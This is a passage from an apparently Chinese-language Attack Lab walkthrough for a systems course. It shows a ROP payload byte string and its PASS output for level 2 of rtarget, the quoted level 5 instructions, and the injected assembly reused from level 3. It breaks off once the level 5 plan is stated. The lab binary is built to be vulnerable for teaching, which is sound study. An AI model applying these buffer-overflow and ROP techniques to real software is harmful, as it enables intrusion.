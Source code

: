 再将保存的`exploit.txt`输入到`rtarget`：

```shell
cat exploit.txt | ./hex2raw | ./rtarget -q
```

得到输出如下：

```shell
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

完成。

## Level 5

>在进行`level 5`之前，请暂停思考你到目前为止已完成的工作。在`level 2`和`level 3`中，你使程序执行自己设计的机器代码。如果`ctarget`曾经是网络服务器，则可以将自己的代码注入到远程计算机中。在`level 4`中，你规避了现代系统用来阻止缓冲区溢出攻击的两个主要设备。尽管你没有注入自己的代码，但是你仍然可以注入一种程序，该程序通过将现有代码序列拼接在一起来运行。你还为此实验获得了95/100分。这是一个很好的成绩。如果你还有其他紧迫的任务，请考虑立即停止。
>
>`level 5`要求你对`rtarget`进行ROP攻击，以使用指向`cookie`字符串表示形式的指针来调用函数`touch3`。除了使用ROP攻击来调用`touch2`之外，这似乎似乎没有那么困难。此外，第5阶段仅计5分，这并不是衡量其所需努力的真实指标。对于那些想要超越课程正常期望的人，将其视为额外的学分问题。
>
>要解决`level 5`，可以在函数`rstart_farm`和`end_farm`划分的`rtarget`中的代码区域中使用`gadget`。 除了在`levle 4`中使用的`gadget`之外，此扩展服务器场还包括不同`movl`指令的编码，如下图C所示。 服务器场此部分中的字节序列还包含2字节指令，这些指令用作功能上的`nop`，即它们不更改任何寄存器或内存值。这些指令包括下图D中所示的指令，例如`andb ％al，％al`，它们在某些寄存器的低位字节上运行，但不更改其值。
>
>![图3C-D](https://i0.hdslb.com/bfs/album/04d8bf7d3bcc66bb6036a90d9357d9ee4882ab56.png)
>
>一些忠告：
>
>- 你需要查看`movl`指令对寄存器的高4位字节的影响。
>- 官方解决方案需要八个`gadget`（并非全部都是唯一的）。
>
>Good luck and have fun!

目的与`level 3`相同，即传参为`cookie`值对应的字符串，区别是此时需要进行ROP攻击。

回忆我们在`level 3`中编写的代码：

```assembly
mov    $0x5561dca8,%rdi    # string
push   $0x4018fa           # touch3
ret
```

思路是先将`cookie`字符串的地址传入`%rdi`，再跳转到`touch3`地址即可。

---